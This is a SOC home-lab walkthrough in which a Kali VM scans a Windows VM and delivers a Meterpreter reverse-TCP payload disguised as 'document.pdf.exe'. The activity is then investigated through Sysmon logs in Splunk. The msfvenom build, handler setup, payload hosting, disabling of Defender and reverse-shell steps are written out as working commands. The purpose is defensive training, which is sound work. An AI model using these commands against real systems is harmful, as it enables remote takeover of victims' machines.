# SOC Home Lab

---

## Introduction / Summary and Lab Diagram

This project is a SOC-style home lab built to practice endpoint telemetry analysis using Kali Linux, a Windows VM, Sysmon, and Splunk. The goal was to generate controlled suspicious activity in an isolated virtual lab, collect the resulting logs, and investigate them from a SOC analyst perspective.


```mermaid
flowchart LR
    A[Kali Linux VM] -->|Nmap scan| B[Windows VM]
    A -->|HTTP server + handler| B
    B -->|Sysmon logs| C[Splunk]
    C -->|Search + investigation| D[SOC analysis]
```



---
## Pre-requisites for this Lab

Splunk and Sysmon App for Splunk must be configured on the Windows VM.

---

## Step-by-Step Walkthrough Including Splunk Investigation

### Step 1: Lab Environment Setup

The lab uses two virtual machines on the same VirtualBox NAT Network:
* Kali Linux VM
* Windows VM
The Windows VM was configured with Sysmon and Splunk so endpoint activity could be collected and searched.



---
### Step 1: NAT Network Setup

#### Step 1.1: Setup NAT Network
Our two VMs must be connected in the same network, since our attacker machine (Kali VM) is attacking the test machine (Windows VM) by delivering a payload using an HTTP Server.

Here the network 10.0.2.0/24 will be allocated.
VirtualBox will act as the DCHP server and will asign our VMs with their own IP address using 10.0.2.x (ex. 10.0.2.3)



#### Step 1.2: Check Connectivity between VMs

We can verify that the two VMs can communicate with each other by using ping. Ping uses ICMP to test for 2-way conenctivity between 2 network devices.

To do this we must first find out the IP address of each VM. 
 - For Linux: ifconfig
 - For Windows: ipconfig

Here we can see that the Kali VM was assigned the IP address of 10.0.2.3, while the Windows VM was assigned 10.0.2.15. These were assigned by our DHCP server (VirtualBox)




Then we can proceed to performing the ping commands. Using the commmand
 - Ping [Target-IP]

The ping from our Kali Machine fails. But this does not mean that there is no connectivity between the two devices. But because Windows blocks ICMP Echo Requests by default.



If we ping from our Windows Machine instead, we can see that the ping succeeds. This verifies that there is 2-way connectivity between our VMs.




---

### Step 2: Network Scanning with Nmap

With connectivity between the two VMs established, we can finally begin probing our test machine using the Kali VM.

We can begin by using Nmap to give us an idea about the target machine. Nmap is a network scanning tool used to discover devices, open ports, running services, and sometimes operating system details on a network.

We can use the command:
 - nmap -A 10.0.2.15 -Pn
     - -A tells nmap to scan for OS, versions, scripts, traceroute
     - -Pn tells nmap to skip discovery and treat the host as online.

Nmap has obtained a list of information about the target device, 10.0.2.15 (Windows VM). Inlcuding the open ports, OS, path to the device using traceroute.

Of interest to us as an attacker is Port 3389 being open. Port 3389 is RDP (Remote Desktop Protocol) which can give us an opportunity to create a connection back to the Windows VM later on.



Traceroute also shows us that the target device is directly connected to our Kali Machine, because it is only 1 hop away.


Port `3389` or the RDP port is relevant because it is commonly targeted for remote access, brute force attempts, and lateral movement. An open port does not automatically mean the system is compromised, but it is best practice to disable unused ports.

---

### Step 3: Build malware using msfvenom

#### Step 3.1: View prebuilt payloads in msfvenom

msfvenom is a tool from the Metasploit Framework used to generate payloads for security testing. Used to create test payloads that can simulate what an attacker might use

For our case, we can use one of msfvenom's prebuilt payloads. To view these prebuilt payloads we can use the command:
 - msfvenom -l payloads

We are specifically interested in windows/x64/meterpreter_reverse_tcp, because it can establish a connection back to the Windows VM later on.



#### Step 3.1: Build payload
We can now build our payload using the command:
 - msfvenom -p windows/x64/meterpreter_reverse_tcp lhost=10.0.2.3 lport=4444 -f exe -o document.pdf.exe
     - -p:
         - Selects the payload
     - reverse_tcp
         - the target connects back to the attacker/listener over TCP
     - lhost=10.0.2.3
         - sets the listener IP address, which is the machine receiving the connection.
     - lport=4444
         - sets the listener port.
     - -f exe
         - sets the output format as a Windows executable file.
     - -o document.pdf.exe
         - saves the output file with that filename.



We can verify if the payload has been generated simply by using "ls" which lists the file in the current directory


---

### Step 4: Configure the Handler Using msfconsole
msfconsole is another tool by the Metasploit Frame

#### Step 4.1: begin msfconsole
We can initiate msfconsole through the command:
 - msfconsole

Then to tell Metasploit to load the multi/handler module, which is used to wait for and catch an incoming reverse connection from your Windows VM, we can use the command:
 - use exploit/multi/handler



#### Step 4.2: Configure Handler
If we enter the command "options" right now we can see the default configuration for the handler. We can see that the payload is just a generic shell_reverse_tcp



We must tweak this to match the payload we configured earlier. Specifically we must set our payload and lhost, using the commands:
 - set payload windows/x64/meterpreter_reverse_tcp
 - set lhost 10.0.2.3

Then we can enter "options" again to verify our changes.



#### Step 4.3: Initiate Handler
Now that we have configured the handler, we can initiate it to start listening on the port and lhost ip for the test machine to execute the malware. Use the command
 - exploit



Our payload and handler are now ready.

---

### Step 5: Configure HTTP Server
For our Windows VM to have a way to access our malware, we must configure a web server for them to download the file from. This simulates a website on the public internet where anyone can download a file without knowing that a file is malicious.

We can use Apache for the web server, but for simplicity, we will use Python. We can configure this simply through the command:
 - python3 -m http.server 9999 
This starts a simple temporary web server from the current folder, using port `9999`, so another machine in the lab can open `http://<Kali-IP>:9999` and download files from that folder.
 - http.server http= built-in simple web server module
 - 9999 = port number to host it on



 -     Our setup for the Kali Machine is now complete.


---

### Step 6: Disable Windows Defender on the Windows VM

On the Windows VM, go to Windows Security -> Virus & threat protection -> Virus & threat protection settings (Manage settings) -> Turn off Real-time protection



---

### Step 7: Download the malware from the HTTP server

With the previous HTTP server we configured on our Kali Machine. The Windows Machine can now access it to download the malware by entering http://10.0.2.3:9999 as the URL of their browser.



Seeing the downloaded file, we can see that windows explorer does not show file extension by default. Some individuals may be fooled by this thinking that it is an unassuming PDF file, but in truth, it as a malicious executable trying to hide its .exe file extension by naming it .pdf.exe.



Thus it is best practice the enable view of file extensions within Windows Explorer.

This reveals that the file is a .exe rightaway.



---

### Step 8: Execute the Payload on the Windows VM

Now the Windows VM runs the payload from our Kali Machine. We can verify that it is running by using this command in cmd.exe
 - netstat -anob
This shows active network connections on Windows, with details.
 - Netstat
     - shows network connections.
 - -a = show all connections and listening ports
 - -n = show IPs/ports as numbers, not names
 - -o = show PID/process ID
 - -b = show the program/exe using the connection

We can see that connection back to 10.0.2.3 (our Kali VM) through port 4444 has been established. Along with its corresponing Process ID or PID.



We can also verify this by checking Task manager



---

### Step 9: Establish Connection to the Windows Machine using the Kali Machine

#### Step 9.1: Check that the Handler sees an established connection
Going back to our Kali Machine, we can see that a connection back to the Windows VM has been established.

This is significant as it indicates that there is now connection between the Kali and Windows Machine



#### Step 9.2: Establish shell connection to Windows VM

Now that we have established a connection to the Windows VM, this indicates that the malware was successful. We can now finally generate our telemetry. Realistically, from this position, an attacker can do much more damage to the Windows VM being given access via shell, such as collect sensitive information, perform malicious commands, and such. But for this lab, our goal is to only geneate telemetry and investigate it later in Splunk.

We can establish shell to the test machine. A shell is a CLI where you type commands to control a device. The shell commands drops us from the Meterpreter prompt into the Windows machine’s normal command prompt, so we can run Windows commands as if we are sitting on that VM. Use the command:
 - shell



---

### Step 10: Perform Discovery Commands on the Windows VM using shell
To generate telemetry fort this lab, we can simply use discovery commands to our Windows VM from our Kali VM. For this lab we will use:
 - net user
     - Shows local user accounts on the Windows machine.
 - Net localgroup
     - Shows local groups on the machine, like Administrators, Users, Remote Desktop Users, etc.
 - ipconfig
     - Shows the Windows machine’s network info, including IP address, subnet mask, and default gateway.



---

### Step 11: Investigate using Splunk

Assuming that configuration for Splunk and the Sysmon App for Splunk are configured, we can finally investigate the logs from Sysmon ingested by Splunk.

#### Step 11.1: Log into Splunk



#### Step 11.2: Search for all ingested logs from Sysmon
Using the Search & Reporting App in Splunk, we can search for all the logs that Splunk has ingested from Sysmon. 

```spl
index=endpoint
```
We can see that there are 11,067 Events from Sysmon.



---

#### Step 11.2: Search for Events from 10.0.2.3

We can refine our search results by filtering the Events coming from 10.0.2.3
```spl
index=endpoint 10.0.2.3
```


With the Sysmon App for Splunk, these events are automatically parsed and we are given useful fields we can use. Such as dest_port.

Investigating these Events further, we can see that connections from 10.0.2.3 only used two ports, 3389 and 4444, and 16 out of 19 times, it was port 3389 which is the RDP Port. 
As a SOC Analyst, this must be raise suspicion. Why is this machine connecting to the RDP port? This could be an indicator of an attempt for desktop scanning or probing. And is this IP or Machine even authorized to use RDP in the first place?




Observed ports:

| Port | Meaning                        | Significance of these ports                     |
| ---- | ------------------------------ | ----------------------------------------------- |
| 3389 | RDP / Remote Desktop           | May indicate remote access exposure or scanning |
| 4444 | Kali listener port in this lab | Helped confirm reverse connection activity      |

#### Step 11.2: Investigate the malware

We can filter our search for the payload document.pdf.exe,

```spl
index=endpoint 10.0.2.3 document.pdf.exe
```



Again, because of the Sysmon App we installed in Splunk, we can see different fields. We can use the “EventCode”, specifically EventCode 1



Investigating the event, we can find useful information including:
 - Parent Process and its corresponding Process ID (PID)
 - Child Process and its corresponding Process ID (PID)








This is of interest for a SOC Analyst because we have confirmed a parent-child process relationship between document.pdf.exe and cmd.exe. We can look further into this by looking at the actual commands done by the child process.

#### Step 11.2: Investigate the child process

To investigate the child process, we can either use its Process ID (PID) or its process_guid. Using process_guid is better because it uniquely tracks a process in Sysmon, even if Windows later reuses the same PID for another process.

So we can further tweak our search,
```spl
index=endpoint {a20d5ff3-7490-6a3a-3130-000000000a00}
```

This shows that we have 6 events associated with the child process cmd.exe



We can tighten up our search even more by cleaning up the results using:
```spl
index=endpoint {a20d5ff3-7490-6a3a-3130-000000000a00}
| table _time,ParentImage,CommandLine
```
This formats the Splunk results into a clean table showing only the important fields we want to review.
 - | table = “display these fields as columns.”
 - _time = when the event happened
 - ParentImage = what process launched it
 - CommandLine = exact command that ran

Finally, we can see document.pdf.exe spawn cmd.exe, which then ran the commands net user, net localgroup, ipconfig. Which are all the commands that we entered from our Kali VM to our Windows VM




---

## Skills Demonstrated

* SOC alert investigation
* Windows endpoint telemetry analysis
* Sysmon log collection
* Splunk searching and filtering
* Process creation analysis
* Parent-child process investigation
* Network connection analysis
* Basic detection engineering
* Documentation and reporting

---

## Tools Used

| Tool                     | Purpose                           |
| ------------------------ | --------------------------------- |
| Kali Linux               | Attacker/telemetry generation VM  |
| Windows VM               | Target endpoint                   |
| VirtualBox               | Virtualized lab environment       |
| Nmap                     | Port scanning                     |
| Sysmon                   | Endpoint telemetry collection     |
| Splunk                   | Log ingestion and investigation   |
| Metasploit multi/handler | Reverse connection handler        |
| Python HTTP Server       | Temporary file hosting in the lab |

---

## Attack / Telemetry Flow


```mermaid
flowchart TD
    A[Kali runs Nmap scan] --> B[Windows port 3389 discovered]
    B --> C[Controlled suspicious file hosted from Kali]
    C --> D[Windows downloads and executes file]
    D --> E[Windows connects back to Kali listener]
    E --> F[cmd.exe shell activity]
    F --> G[Discovery commands executed]
    G --> H[Sysmon records activity]
    H --> I[Splunk ingests logs]
    I --> J[SOC-style investigation]
```

---

## Key Findings

* Nmap identified port `3389` as open, indicating that RDP was available on the Windows VM.
* Splunk successfully ingested Sysmon logs into the `endpoint` index.
* Sysmon EventCode `1` showed process creation activity.
* Sysmon EventCode `3` showed network connection activity.
* The suspicious executable created a reverse connection back to the Kali VM.
* Process investigation showed command shell activity and discovery commands such as `net user`, `net localgroup`, and `ipconfig`.
* The strongest evidence came from correlating process creation, command-line activity, and network connections together.

---

## Lessons Learned

* Sysmon provides useful visibility into endpoint activity such as process creation and network connections.
* Splunk can be used to investigate suspicious behavior by correlating multiple event types.
* Open ports, suspicious filenames, command shell activity, and outbound connections are more meaningful when analyzed together.
* ProcessGuid is useful because it helps track a process more reliably than only using Process ID.
* A single event does not automatically prove malicious activity; context and correlation are important in SOC investigations.
